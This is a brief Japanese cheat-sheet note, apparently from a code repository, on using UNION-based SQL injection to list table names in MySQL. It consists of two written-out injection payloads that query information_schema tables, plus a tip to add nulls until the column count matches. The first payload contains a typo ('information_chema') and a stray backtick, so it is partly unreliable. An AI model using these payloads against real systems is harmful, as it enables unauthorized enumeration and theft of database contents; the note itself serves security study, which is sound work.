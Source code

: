 # union_all

## mysqlでテーブル名を確認する

```mysql
` UNION ALL SELECT 1,1,table_schema,table_name from information_chema.tables
```

nullの値を増やしていく

```msyql
' UNION SELECT null, table_name FROM INFORMATION_SCHEMA.TABLES; #
```

出力結果にテーブル名が含まれる。

